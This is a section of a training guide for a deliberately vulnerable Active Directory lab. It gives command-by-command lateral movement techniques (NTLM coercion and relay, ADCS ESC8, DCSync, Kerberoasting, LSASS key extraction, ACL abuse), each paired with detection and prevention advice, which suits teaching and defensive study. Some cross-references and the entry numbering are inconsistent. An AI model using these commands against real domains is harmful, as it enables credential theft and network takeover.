

# 04 — Lateral Movement (LAT-001..035)

Once you have credentials/hashes/tickets, lateral movement is "how do I run code on the next host." EMPIRE enables every classic primitive: SMB signing off, WinRM open, DCOM enabled, IPv6 stack on, ADIDNS writable, GPP files lying around.

Use these from your **Kali / BlackArch** attacker box on the host bridge, or — once you've landed a beacon via [`02a-initial-access.md`](02a-initial-access.md) — from your foothold on `tatooine` / scarif / etc. via a SOCKS pivot.

---

### BloodHound ACL Attack Vectors



---

### LAT-001 — MS-RPRN PrinterBug / Print Spooler Coercion
**What it is:** The Print Spooler service allows domain users to coerce a Domain Controller (or any host running the service) to authenticate to an arbitrary machine using the `RpcRemoteFindFirstPrinterChangeNotificationEx` RPC call.
**Why it works here:** Print Spooler is running by default on all DCs in the `empire.local` lab (pre-configured by `vuln_df_ext/DF-011`).
**Tools:** `impacket-rpcdump`, `dementor.py`, `SpoolSample.exe`.
**Steps:**
```bash
python3 dementor.py -u 'luke.skywalker' -p 'EmpireLab2024!' -d 'empire.local' 10.10.0.100 10.10.0.10
# Using SpoolSample:
SpoolSample.exe coruscant.empire.local 10.10.0.100
```
**Detection:** Event ID `7045` (service startup), network traffic to port 445 on the attacker machine from the domain controller computer account (`CORUSCANT$`). Sysmon Event ID `3` (Network Connection) showing `spoolsv.exe` initiating outbound SMB connections.
**Prevention:** Disable the Print Spooler service on domain controllers (`Stop-Service Spooler`, `Set-Service Spooler -StartupType Disabled`). Alternatively, restrict outbound SMB/RPC connections from DCs to the local subnet or internet.

---

### LAT-002 — MS-EFSR PetitPotam / EFS Coercion
**What it is:** Encrypting File System Remote Protocol (EFSRPC) exposes methods that force a target machine to authenticate against an arbitrary system (e.g. an attacker-controlled relay) using NTLM over SMB.
**Why it works here:** The Encrypting File System (EFS) service is enabled and running on all domain controllers (`EFS` service startup type is set to Automatic).
**Tools:** `impacket-petitpotam`, `PetitPotam.exe`.
**Steps:**
```bash
python3 PetitPotam.py -u 'luke.skywalker' -p 'EmpireLab2024!' -d 'empire.local' 10.10.0.100 10.10.0.10
```
**Detection:** Event ID `4624` on the attacker or relayed system showing a logon from the domain controller computer account (`CORUSCANT$`) using NTLM. Monitor for LSASS access by non-standard processes.
**Prevention:** Disable EFS service where not needed. Block EFSRPC traffic using RPC filters or netsh filters. Require LDAP signing and channel binding. Enable SMB signing.

---

### LAT-003 — MS-FSRVP ShadowCopyAgent / Shadow Copy Coercion
**What it is:** The File Server Remote VSS Protocol (FSRVP) is used for managing shadow copies on remote file shares. Attackers can leverage the `IsPathSupported` or `IsPathShadowCopied` RPC methods to coerce NTLM authentication from a target machine.
**Why it works here:** The Volume Shadow Copy (VSS) service is enabled and configured for manual startup.
**Tools:** `Coercer`, `shadowcoerce.py`.
**Steps:**
```bash
python3 shadowcoerce.py -u 'luke.skywalker' -p 'EmpireLab2024!' -d 'empire.local' 10.10.0.100 10.10.0.10
```
**Detection:** Outbound SMB authentication attempts from the DC's machine account to an external/untrusted IP address.
**Prevention:** Disable the File Server VSS Agent service (`rvssg` / `VSS`) if remote shadow copy management is not required. Block outbound RPC (ports 135 and dynamic RPC ports) at network boundaries.

---

### LAT-004 — MS-DFSNM / DFS Coercion
**What it is:** The Distributed File System Namespace Management (DFSNM) protocol allows administrative management of DFS namespaces. An attacker can call `NetrDfsRemoveStdRoot` or `NetrDfsAddStdRoot` to coerce the domain controller's machine account to authenticate to an arbitrary SMB share.
**Why it works here:** The DFS Namespace (`Dfs`) service is enabled and running.
**Tools:** `Coercer`, `dfscoerce.py`.
**Steps:**
```bash
python3 dfscoerce.py -u 'luke.skywalker' -p 'EmpireLab2024!' -d 'empire.local' 10.10.0.100 10.10.0.10
```
**Detection:** Network connection attempts from domain controller computer accounts to external hosts over SMB. Event ID `4624` (NTLM authentication) originating from a DC machine account on a non-DC host.
**Prevention:** Disable the Distributed File System (DFS) service on systems that do not act as DFS roots or namespace servers. Implement network segmentation to block lateral RPC traffic.

---

### LAT-005 — MS-NRPC / Netlogon Coercion
**What it is:** The Netlogon Remote Protocol (MS-NRPC) contains RPC interfaces that can be abused to trigger authentication from a machine account. This is similar to other coercion methods, forcing the target machine to authenticate to an attacker listener.
**Why it works here:** Netlogon is an essential, always-on service running on all domain controllers.
**Tools:** `Coercer`, `netlogoncoerce.py`.
**Steps:**
```bash
python3 netlogoncoerce.py -u 'luke.skywalker' -p 'EmpireLab2024!' -d 'empire.local' 10.10.0.100 10.10.0.10
```
**Detection:** Event ID `4624` logon event from a computer account (`CORUSCANT$`) over NTLM. Unusual RPC calls to the Netlogon interface.
**Prevention:** Restrict RPC Netlogon interface exposure. Enforce domain-level restrictions on NTLM authentication (e.g. restrict NTLM outbound/inbound traffic via GPO).

---

### LAT-006 — WebDAV Coercion
**What it is:** The WebClient service allows Windows applications to access files on web servers using WebDAV. If an attacker can trigger a target system to access a UNC path pointing to a WebDAV share (e.g. `\\attacker@80\share`), the WebClient service will automatically attempt to authenticate via HTTP using NTLM.
**Why it works here:** WebClient service is installed and enabled (often on client systems like `tatooine`).
**Tools:** `Coercer`, `WebdavCoercion.py`.
**Steps:**
```bash
python3 WebdavCoercion.py -u 'luke.skywalker' -p 'EmpireLab2024!' -d 'empire.local' 10.10.0.100 10.10.0.100
```
**Detection:** Sysmon Event ID `3` showing `svchost.exe` (spawning WebClient) initiating outbound HTTP connections on port 80/443. Event ID `4624` NTLM authentication to the WebDAV server.
**Prevention:** Disable the WebClient service (`WebClient`) on all member servers and workstations. If it must be enabled, configure the `AuthForwardServerList` registry key to restrict WebDAV authentication to trusted intranet servers only, and disable WPAD.

---

### LAT-007 — MS-ICPR / ADCS HTTP Enrollment Endpoint Coercion
**What it is:** The Active Directory Certificate Services (ADCS) ICertPassage Remote Protocol (MS-ICPR) handles client certificate enrollment. An attacker can coerce authentication against this endpoint to capture NTLM credentials.
**Why it works here:** `endor` acts as the ADCS Certification Authority and exposes HTTP enrollment endpoints.
**Tools:** `Coercer`, `certipy`.
**Steps:**
```bash
certipy-coercer -u 'luke.skywalker' -p 'EmpireLab2024!' -d 'empire.local' -target endor.empire.local -listener 10.10.0.100
```
**Detection:** Unusual ADCS enrollment requests. Event ID `4886` (Certificate Services received a certificate request).
**Prevention:** Require HTTPS for all certificate enrollment endpoints. Enable Extended Protection for Authentication (EPA) and configure SSL/TLS client certificate requirements on IIS endpoints.

---

### LAT-008 — PrivExchange / Exchange Coercion
**What it is:** Microsoft Exchange Server's PushSubscription API allows an attacker to specify a callback URL. The Exchange Server will then authenticate to this URL as `NT AUTHORITY\SYSTEM` over HTTP using NTLM.
**Why it works here:** The lab environment simulates an Exchange configuration (placeholder role) where Exchange services are trusted.
**Tools:** `privexchange.py`.
**Steps:**
```bash
python3 privexchange.py -ah 10.10.0.100 -u 'luke.skywalker' -p 'EmpireLab2024!' -d 'empire.local' mailserver.empire.local
```
**Detection:** Event ID `4624` NTLM authentication originating from Exchange Server machine accounts (`EXCHANGE$`) to unauthorized external web servers.
**Prevention:** Disable the PushSubscription API or apply patches disabling loopback/arbitrary subscriptions. Restrict Exchange Server permissions to write/modify Active Directory objects (split permissions model).

---

### LAT-009 — SCF File Coercion in Writable Share
**What it is:** A Shell Command File (`.scf`) dropped into a writable Windows share can contain an `IconFile` parameter pointing to an attacker-controlled UNC path. When a user browses the directory using Windows Explorer, the client automatically attempts to resolve the icon file, sending an NTLM authentication request to the attacker's IP.
**Why it works here:** A world-writable SMB share exists on `scarif` (`PublicShare`) allowing anyone to upload files.
**Tools:** Text editor (creation), `responder` (capture).
**Steps:**
1. Create a file named `@coerce.scf` containing:
```ini
[Shell]
Command=2
IconFile=\\10.10.0.100\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```
2. Upload this file to a world-writable share on `scarif.empire.local`:
```bash
smbclient //10.10.0.13/PublicShare -U 'luke.skywalker' -c 'put @coerce.scf'
```
**Detection:** Sysmon Event ID `11` (FileCreate) showing `.scf` or `.url` files written to shares. Outbound SMB connections from workstations to non-standard external IPs.
**Prevention:** Disable write access to public shares for non-privileged users. Configure firewalls to block outbound port 445 (SMB) traffic to external networks. Force SMB signing.

---

### LAT-010 — Multicast DNS Poisoning (LLMNR/NBT-NS) Coercion Surface
**What it is:** Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are legacy name resolution protocols. When a client fails to resolve a hostname via DNS, it broadcasts a query. An attacker on the local network can spoof replies and coerce the victim into authenticating via NTLM.
**Why it works here:** LLMNR and NBT-NS are enabled by default on all `empire.local` hosts (configured in the `vuln_recon` role).
**Tools:** `Responder`.
**Steps:**
```bash
sudo responder -I virbr1 -dwv
```
**Detection:** Inconsistent or spoofed DNS responses on the local network. Event ID `4625`/`4624` showing authentication attempts with invalid/typo hostnames.
**Prevention:** Disable LLMNR and NBT-NS via GPO (`Turn off Link-Local Multicast Name Resolution` and disable NetBIOS over TCP/IP in network adapter settings).

---

### LAT-011 — LDAP Signing Not Required
**What it is:** When LDAP signing is not required, NTLM authentication attempts can be relayed directly to the Domain Controller's LDAP service without validation. This allows attackers to perform directory operations (e.g. writing attributes or creating computer accounts) using relayed credentials.
**Why it works here:** LDAPServerIntegrity is set to 0 (None) or 1 (Negotiate) on `coruscant.empire.local` (weakened in `vuln_cred_access` role).
**Tools:** `ntlmrelayx.py`.
**Steps:**
```bash
python3 ntlmrelayx.py -t ldap://10.10.0.10 -smb2support
```
**Detection:** Directory service modification events (Event ID `5136`). LDAP connections over unencrypted port 389 originating from unauthorized systems.
**Prevention:** Set `LDAPServerIntegrity` registry value to `2` (Require Signing) on all domain controllers (`HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters`).

---

### LAT-012 — LDAP Channel Binding Disabled
**What it is:** Without LDAP Channel Binding Tokens (CBT), NTLM authentication relayed over LDAPS (LDAP over SSL/TLS) is accepted. An attacker can relay coerced NTLM authentication to secure LDAPS endpoints to perform administrative actions.
**Why it works here:** Channel binding is disabled or not enforced on `empire.local` Domain Controllers.
**Tools:** `ntlmrelayx.py`.
**Steps:**
```bash
python3 ntlmrelayx.py -t ldaps://10.10.0.10 -smb2support
```
**Detection:** Event ID `2889` (LDAP client signing not required) and `2886` logged on DCs. Relayed LDAPS authentication attempts.
**Prevention:** Enforce LDAP channel binding by setting the `LdapEnforceChannelBinding` registry value to `2` (Require) under `HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters`.

---

### LAT-013 — SMB1 + SMB Signing Disabled
**What it is:** SMB signing ensures packet-level integrity. When disabled on a target server, and legacy SMB1 is enabled, an attacker can relay captured NTLM authentication sessions to execute commands or access files on that server.
**Why it works here:** SMB signing is disabled on member servers (`scarif`, `kamino`, `tatooine`), and SMB1 is enabled (pre-configured in `vuln_recon` / `vuln_lateral` roles).
**Tools:** `ntlmrelayx.py`, `impacket-smbexec`.
**Steps:**
```bash
python3 ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
**Detection:** NTLM sessions relayed between member servers. Event ID `4624` Logon Type 3 with signing turned off.
**Prevention:** Require SMB signing via GPO (`Microsoft network server: Digitally sign communications (always) = Enabled`). Disable the SMBv1 protocol entirely.

---

### LAT-014 — Cross-Protocol NTLM Relay (HTTP/SMB to LDAP)
**What it is:** When signing is disabled on destination protocols (e.g. LDAP or SMB), NTLM credentials captured from HTTP or SMB coercion can be relayed to these services to create objects, change passwords, or execute code.
**Why it works here:** Both SMB signing and LDAP signing are disabled across several target hosts in the lab.
**Tools:** `ntlmrelayx.py`.
**Steps:**
```bash
python3 ntlmrelayx.py -t ldap://10.10.0.10 -wh 10.10.0.100 --delegate-access
```
**Detection:** Event ID `4624` showing successful network logon from unexpected IP addresses with delegated credentials.
**Prevention:** Enforce SMB signing on all hosts and LDAP signing/channel binding on all Domain Controllers.

---

### LAT-015 — CredSSP AllowEncryptionOracle (CVE-2018-0886)
**What it is:** A vulnerability in the Credential Security Support Provider protocol (CredSSP) used by RDP. If the policy `AllowEncryptionOracle` is set to "Vulnerable" (value 2), an attacker in a MitM position can decrypt and reuse credentials during RDP authentication.
**Why it works here:** `AllowEncryptionOracle` is set to `2` on `scarif.empire.local` (configured in the `vuln_lateral` role).
**Tools:** `rdp_oracle.py`, custom MitM RDP scripts.
**Steps:**
```bash
python3 rdp_oracle.py -t 10.10.0.13 -u 'luke.skywalker' -p 'EmpireLab2024!'
```
**Detection:** Event ID `4625` or `4624` during CredSSP session negotiation. Mismatched encryption layers.
**Prevention:** Set the `AllowEncryptionOracle` registry value to `0` (Force updated clients) or `1` (Mitigated) under `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\CredSSP\Parameters`.

---

### LAT-016 — Resource-Based Constrained Delegation Chain
**What it is:** chain RBCD across multiple hops (compromise A → write RBCD on B → use B to impersonate to C → write RBCD on D ...). BloodHound shows the path.
**Steps / Tools / Detection / Prevention:** see CRED-017.

---

### LAT-017 — Unconstrained Delegation Coercion / Relay Chain
**What it is:** If a computer account is configured with Unconstrained Delegation, any user authenticating to it will store their TGT in that server's LSASS cache. By forcing a domain controller or privileged user to authenticate to this server (via coercion), the attacker can extract the privileged user's TGT and impersonate them.
**Why it works here:** `svc_coerce$` has `TrustedForDelegation=True` (configured by `vuln_persistence_ext/PER-037`), and PrinterBug/PetitPotam coercion is allowed.
**Tools:** `Rubeus`, `impacket-petitpotam`.
**Steps:**
1. Monitor for incoming tickets on `svc_coerce$` (or run from attacker system targeting memory if local admin):
```cmd
Rubeus.exe monitor /interval:5 /nowrap
```
2. Coerce `coruscant$` to authenticate to `svc_coerce$`:
```bash
python3 PetitPotam.py 10.10.0.100 coruscant.empire.local
```
3. Extract the cached DC TGT and perform DCSync:
```cmd
Rubeus.exe dump /service:krbtgt
mimikatz# lsadump::dcsync /domain:empire.local /user:Administrator
```
**Detection:** Event ID `4769` (Kerberos service ticket request) for `krbtgt` with a delegated TGT flag. Monitor LSASS for credential extractions.
**Prevention:** Disable Unconstrained Delegation; use Constrained or Resource-Based Constrained Delegation instead. Configure sensitive accounts as "Account is sensitive and cannot be delegated."

---

### LAT-018 — NTLMv2 Capture via Responder + Relay to LDAPS
**What it is:** Legacy network protocols broadcast name requests. Responder captures the NTLMv2 hashes, which can then be relayed to the LDAPS service of a domain controller (if channel binding is disabled) to perform directory write actions, such as writing RBCD attributes.
**Why it works here:** Workstations have LLMNR/NBT-NS enabled, and LDAPS channel binding is not enforced.
**Tools:** `Responder`, `ntlmrelayx.py`.
**Steps:**
```bash
sudo responder -I virbr1 -dw
python3 ntlmrelayx.py -t ldaps://10.10.0.10 --delegate-access -smb2support
```
**Detection:** Outbound NTLMv2 authentication over LDAPS originating from non-DC hosts. Broadcast name queries answered by non-standard hosts.
**Prevention:** Disable LLMNR and NBT-NS. Enable LDAP channel binding requirements.

---

### LAT-019 — Cross-Forest NTLM Relay
**What it is:** When SID filtering is disabled on a cross-forest trust, an attacker can relay NTLM authentication from a user in one forest to a resource in another forest to perform lateral actions.
**Why it works here:** SID filtering is disabled (`quarantine:No`) on the external trust between `empire.local` and `rebel.local` or `trade.corp`.
**Tools:** `ntlmrelayx.py`.
**Steps:**
```bash
python3 ntlmrelayx.py -t ldap://yavin4.rebel.local -smb2support
```
**Detection:** Event ID `4624` showing cross-forest authentication without appropriate SID filtering.
**Prevention:** Enable SID filtering on all trusts using `netdom trust /quarantine:Yes`.

---

### LAT-020 — NTLM Relay to ADCS HTTP Enrollment (ESC8)
**What it is:** The ADCS HTTP enrollment endpoint (`/certsrv/certfnsh.asp`) accepts NTLM authentication. If SSL is not enforced and Extended Protection (EPA) is disabled, an attacker can relay coerced machine authentication to the endpoint, enroll a certificate for the machine, and use it to obtain a TGT (via PKINIT).
**Why it works here:** `endor.empire.local` has ADCS HTTP enrollment enabled (port 80) without EPA (configured in `vuln_adcs ESC8`).
**Tools:** `ntlmrelayx.py`, `impacket-petitpotam`, `certipy`.
**Steps:**
1. Start relay tool pointing to the certificate enrollment endpoint:
```bash
python3 ntlmrelayx.py -t http://endor.empire.local/certsrv/certfnsh.asp --adcs --template DomainController
```
2. Coerce the DC using PetitPotam:
```bash
python3 PetitPotam.py 10.10.0.100 coruscant.empire.local
```
3. Use the relayed, generated certificate (`coruscant.pfx`) to request a TGT:
```bash
certipy auth -pfx coruscant.pfx -dc-ip 10.10.0.10
```
**Detection:** Certificate enrollment events (Event ID `4886` / `4887` on CA). Event ID `4768` (TGT Request) using PKINIT.
**Prevention:** Disable the HTTP enrollment endpoints on ADCS if not needed. If required, enforce HTTPS and enable Extended Protection for Authentication (EPA) under IIS settings.

---

### LAT-021 — ACL Abuse: WriteDACL on Domain → DCSync
**What it is:** `GenericAll`/`WriteDACL` on the domain object lets you add `Replicating Directory Changes` to your account → DCSync.
**Tools:** PowerView `Add-DomainObjectAcl -Rights DCSync`.
**Steps:**
```powershell
Add-DomainObjectAcl -TargetIdentity "DC=empire,DC=local" -PrincipalIdentity peter.parker -Rights DCSync
```
**Detection:** Event `5136` on domain root; MDI "Modification to privileged AD object."
**Prevention:** audit ACEs on `DC=empire,DC=local`; only DCs should have DCSync.

---

### LAT-022 — ACL Abuse: WriteSPN → Kerberoast
**What it is:** with `Validated-SPN` write on another user, add an SPN to them → Kerberoast → crack.
**Why it works here:** nick.fury has `WriteSPN` on `svc_vision`.
**Tools:** PowerView `Set-DomainObject -Set @{servicePrincipalName='http/x'}`.
**Steps:**
```powershell
Set-DomainObject -Identity svc_vision -Set @{serviceprincipalname='nonexistent/x'}
.\Rubeus.exe kerberoast /user:svc_vision /outfile:roast.hashes
```
**Detection:** Event `4738` (account changed) with SPN modification by non-admin.
**Prevention:** restrict Validated-SPN write; monitor SPN additions.

---

### LAT-023 — LAPS Password Read Access
**What it is:** The Local Administrator Password Solution (LAPS) stores local administrator passwords in an AD attribute (`ms-Mcs-AdmPwd`). If permissions are overly permissive, unauthorized users can read this attribute and compromise the local administrator account of member computers.
**Why it works here:** The `IT_Team` group is granted read permissions on `ms-Mcs-AdmPwd` attribute for the Computers OU (configured in `acl_abuse.yml`).
**Tools:** PowerView (`Get-DomainComputer`), `crackmapexec smb --laps`.
**Steps:**
```powershell
Get-DomainComputer -Identity tatooine -Properties "ms-Mcs-AdmPwd"
# Or using crackmapexec:
crackmapexec smb 10.10.0.100 -u 'luke.skywalker' -p 'EmpireLab2024!' --laps
```
**Detection:** Event ID `4662` (An operation was performed on an object) on computer objects querying the `ms-Mcs-AdmPwd` attribute GUID `{6e3b01aa-a4c7-4f4d-8ca2-f7fdc73df668}`.
**Prevention:** Limit LAPS password read permissions to specific, highly privileged security groups. Remove read rights for delegated OU administrators or non-tier-0 staff.

---

### LAT-024 — Cross-Forest SPN Abuse
**What it is:** If a user account has an SPN registered in a foreign forest, or has delegation permissions across forest trusts, an attacker can request Kerberos service tickets across the trust and crack them, or abuse delegation to compromise foreign systems.
**Why it works here:** `svc_trooper` has an SPN on `rebel.local` (pre-configured in `acl_abuse.yml`).
**Tools:** `Rubeus`, `Get-DomainUser`.
**Steps:**
```cmd
Rubeus.exe kerberoast /domain:rebel.local /outfile:rebel.hashes
```
**Detection:** Event ID `4769` on the foreign DC requesting TGS for cross-forest SPNs.
**Prevention:** Clean up unnecessary SPNs. Enable selective authentication on forest trusts to prevent automatic ticket referral.

---

### LAT-025 — WriteSPN ACL Abuse
**What it is:** The `Validated-SPN` or `WriteProperty` (SPN) permission allows a user to register a Service Principal Name (SPN) on another user account. An attacker with this permission can register an SPN on a high-privilege target account, making it Kerberoastable, request a service ticket, and crack the password offline.
**Why it works here:** `luke.skywalker` has an SPN, and the HelpDesk group is configured with WriteSPN/Validated-SPN rights on specific target accounts (configured in `acl_abuse.yml`).
**Tools:** PowerView (`Set-DomainObject`), `Rubeus`.
**Steps:**
```powershell
Set-DomainObject -Identity luke.skywalker -Set @{serviceprincipalname='HTTP/luke.skywalker-web.empire.local:8080'}
# Kerberoast:
.\Rubeus.exe kerberoast /user:luke.skywalker /outfile:roast.hashes
```
**Detection:** Event ID `4738` (A user account was changed) with the `Service Principal Names` attribute modified. Event ID `4769` (Kerberos service ticket request) immediately following the SPN change.
**Prevention:** Audit and restrict who has WriteProperty permissions on the `servicePrincipalName` attribute of user objects.

---

### LAT-026 — KrbRelayUp (Local LPE via Kerberos)
**What it is:** authenticated user on a Windows host can relay machine-account Kerberos to local LSASS pipe and write RBCD on the local machine account → local SYSTEM.
**Why it works here:** default LDAP/LSASS pipe; no machine-account RBCD write restriction.
**Tools:** `KrbRelayUp.exe`.
**Steps:**
```cmd
KrbRelayUp.exe full --Method SCM
```
**Detection:** local `5136` writing `msDS-AllowedToActOnBehalfOfOtherIdentity` on local machine.
**Prevention:** `LdapEnforceChannelBinding=2`; SMB signing; Defender rule "Block credential stealing."

---

### LAT-027 — mitm6 (DHCPv6 → WPAD → NTLM Relay)
**What it is:** see LAT-015 (PLAN.md tracks LAT-027 separately for IPv4-only variant flag).

---

### LAT-028 — LLMNR + SMB Relay
**What it is:** Responder grabs LLMNR/NBT-NS hashes, but instead of cracking, ntlmrelayx relays them to a host without SMB signing → exec.
**Tools:** `Responder` (SMB/HTTP off) + `ntlmrelayx`.
**Steps:**
```bash
sudo responder -I virbr1 -dwv          # SMB/HTTP disabled in Responder.conf
ntlmrelayx.py -tf targets.txt -smb2support -c 'powershell -enc ...'
```
**Detection:** Defender for Identity "LLMNR/NBT-NS spoofing" + "Suspected NTLM relay attack."
**Prevention:** disable LLMNR/NBT-NS, force SMB signing.

---

### LAT-029 — ForceChangePassword ACL Abuse
**What it is:** The `User-Force-Change-Password` extended right allows a principal to reset the password of a target user account without knowing the current password.
**Why it works here:** The HelpDesk group has `User-Force-Change-Password` permissions on all IT_Team members (configured in `acl_abuse.yml`).
**Tools:** PowerView (`Set-DomainUserPassword`), bloodyAD.
**Steps:**
```powershell
Set-DomainUserPassword -Identity nick.fury -AccountPassword (ConvertTo-SecureString "NewSithLord1!!" -AsPlainText -Force)
```
**Detection:** Event ID `4724` (An attempt was made to reset an account's password) generated from a non-privileged or unexpected account (e.g. HelpDesk group member).
**Prevention:** Restrict the `User-Force-Change-Password` delegation right. Implement Tiered Administration (Tier 0/1/2 separation) to prevent lower-tier users from resetting passwords of higher-tier accounts.

---

### LAT-030 — GenericWrite ACL Abuse
**What it is:** The `GenericWrite` permission on a user or service account allows modifying any non-protected attributes of that object. Attackers can write to the `servicePrincipalName` attribute (to Kerberoast the account) or configure delegation settings.
**Why it works here:** HelpDesk has `GenericWrite` on `svc_bobafett2` (configured in `acl_abuse.yml`).
**Tools:** PowerView, `bloodyAD`.
**Steps:**
```powershell
Set-DomainObject -Identity svc_bobafett2 -Set @{serviceprincipalname='MSSQL/target.empire.local'}
# Request Kerberos ticket:
.\Rubeus.exe kerberoast /user:svc_bobafett2 /outfile:bobafett.hashes
```
**Detection:** Event ID `5136` (Directory Service Changes) showing modification of attributes on user objects by non-admin accounts.
**Prevention:** Limit `GenericWrite` permissions on Active Directory objects. Enforce strict access control lists (ACLs) using AdminSDHolder for critical accounts.

---

### LAT-031 — WriteOwner ACL Abuse on finance_sync
**What it is:** The `WriteOwner` permission allows a principal to take ownership of an object. Once ownership is changed, the new owner can modify the DACL of the object to grant themselves full control (`GenericAll`), even if they were previously denied access.
**Why it works here:** `svc_bobafett` has `WriteOwner` on the `finance_sync` group (configured in `acl_abuse.yml`).
**Tools:** PowerView (`Set-DomainObjectOwner`, `Add-DomainObjectAcl`).
**Steps:**
```powershell
# Change owner to svc_bobafett:
Set-DomainObjectOwner -Identity 'finance_sync' -OwnerIdentity svc_bobafett
# Add GenericAll rights for svc_bobafett on the group:
Add-DomainObjectAcl -TargetIdentity 'finance_sync' -PrincipalIdentity svc_bobafett -Rights All
# Add members to the group:
Add-DomainGroupMember -Identity 'finance_sync' -Members svc_bobafett
```
**Detection:** Event ID `5136` or `4737` showing group ownership changes. Modification of the `nTSecurityDescriptor` attribute.
**Prevention:** Audit ownership of security groups and administrative objects. Use AdminSDHolder to protect high-privilege groups.

---

### LAT-032 — AddMember ACL Abuse on Domain Admins (indirect)
**What it is:** The `WriteMembers` (or `GenericWrite`/`GenericAll`) permission on an AD group allows a user to add arbitrary members to that group. If this is delegated on a privileged group (or a group that can escalate to it), an attacker can add themselves or a compromised account to achieve Domain Admin.
**Why it works here:** The HelpDesk group has indirect path permissions that allow escalations to Domain Admins (configured in `acl_abuse.yml`).
**Tools:** `Add-DomainGroupMember`, `net group`.
**Steps:**
```powershell
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'luke.skywalker'
```
**Detection:** Event ID `4728` (A member was added to a security-enabled global group) or `4732` (local group) showing membership changes in privileged groups.
**Prevention:** Never delegate group write permissions on Tier-0 groups (like Domain Admins, Enterprise Admins, Schema Admins). Regularly audit group memberships.

---

### LAT-033 — LNK / SCF / URL on writable share
**What it is:** drop `evil.lnk` (or `.scf`/`.url`) with `IconLocation=\\attacker\share\icon.ico` on a heavily-browsed share. Anyone who opens the share folder triggers an NTLM auth to the attacker.
**Tools:** `ntlm_theft`, `scf-template`.
**Steps:** generate, drop into `\\scarif\Public`.
**Detection:** Sysmon `11` (FileCreate) of `.lnk`/`.scf`/`.url`; Event `5145` on suspicious file types.
**Prevention:** block UNC paths to external hosts (firewall); SMB signing.

---

### LAT-034 — Foreign Group Membership (Cross-Forest)
**What it is:** Foreign Security Principal from `rebel.local` placed in `empire.local`'s privileged group → cross-forest DA.
**Why it works here:** intentionally pre-populated.
**Tools:** `Get-ADGroupMember`, BloodHound CrossForestACL.
**Steps:**
```powershell
Get-ADGroupMember "Domain Admins" | ? { $_.SID -match 'S-1-5-21-FIN' }
```
**Detection:** Event `4732`/`4756` adding FSP to privileged group.
**Prevention:** never put FSPs in tier-0 groups; selective auth.

---

### LAT-035 — Overpass-the-Hash (AES Key Extraction)
**What it is:** Overpass-the-Hash (or pass-the-key) is the technique of using a user's NT or AES hash to request a Kerberos TGT from the Key Distribution Center (KDC) rather than performing traditional NTLM authentication. This allows the attacker to pivot using Kerberos (TGT) tickets, bypassing NTLM detection mechanisms.
**Why it works here:** LSASS is unprotected (RunAsPPL=0) on member servers, allowing AES session keys to be extracted from memory.
**Tools:** `Rubeus`, `Mimikatz`.
**Steps:**
```cmd
# Extract AES keys from LSASS:
mimikatz# sekurlsa::ekeys
# Use Rubeus to ask for TGT:
Rubeus.exe asktgt /user:svc_bobafett /aes256:$(AES_KEY) /domain:empire.local /ptt
```
**Detection:** Event ID `4768` (Kerberos TGT Request) with pre-authentication type utilizing RC4 or AES keys instead of standard smart card/password. Sysmon Event ID `10` showing LSASS process access.
**Prevention:** Enable Credential Guard to protect credentials in LSASS. Restrict local administrator privileges to prevent memory dumping.

---

### LAT-036 — Shadow Credentials (msDS-KeyCredentialLink Write)
**What it is:** If a user has write access (`GenericWrite` or `WriteProperty` on `msDS-KeyCredentialLink`) to a target user or computer object, they can generate a self-signed certificate, append a key credential mapping to the target object, and perform PKINIT to request a TGT for that target object.
**Why it works here:** HelpDesk has `WriteProperty` on `msDS-KeyCredentialLink` for `tatooine$` computer object (configured in `lateral_adv.yml`).
**Tools:** `Whisker.exe`, `pyWhisker`, `Rubeus`.
**Steps:**
```cmd
# Add shadow credentials:
Whisker.exe add /target:tatooine$ /domain:empire.local /dc:coruscant.empire.local
# Request TGT using the generated certificate:
Rubeus.exe asktgt /user:tatooine$ /certificate:$(BASE64_CERT) /ptt
```
**Detection:** Event ID `5136` showing modification of the `msDS-KeyCredentialLink` attribute on a computer or user object. Event ID `4768` (TGT Request) using PKINIT.
**Prevention:** Restrict write permissions on the `msDS-KeyCredentialLink` attribute. Monitor AD attribute changes for this specific GUID.

---

### LAT-041 — Extended Protection for Authentication (EPA) Disabled
**What it is:** Extended Protection for Authentication binds network channel parameters (TLS outer channel) with authentication protocols (like NTLM). When EPA is disabled on services like IIS or LDAP, an attacker can perform NTLM relay attacks across secure channels.
**Why it works here:** ExtendedProtection is set to 0 (disabled) on `scarif.empire.local` (configured in `lateral_adv.yml`).
**Tools:** `ntlmrelayx.py`.
**Steps:**
```bash
python3 ntlmrelayx.py -t ldaps://10.10.0.10 -smb2support
```
**Detection:** Security warning logs or audit events showing NTLM authentication over SSL/TLS without channel bindings.
**Prevention:** Enable Extended Protection for Authentication (EPA) on all critical IIS and LDAP/LDAPS configurations.

---

### LAT-042 — SMB Signing Disabled
**What it is:** SMB signing ensures packet-level integrity. When disabled on a system, attackers can relay captured authentication requests directly to the target machine to run commands.
**Why it works here:** SMB signing is explicitly disabled in the registry on workstation and file server member hosts (configured in `lateral_adv.yml`).
**Tools:** `ntlmrelayx.py`.
**Steps:**
```bash
python3 ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```
**Detection:** Event ID `4624` (Network Logon) over SMB with signing turned off.
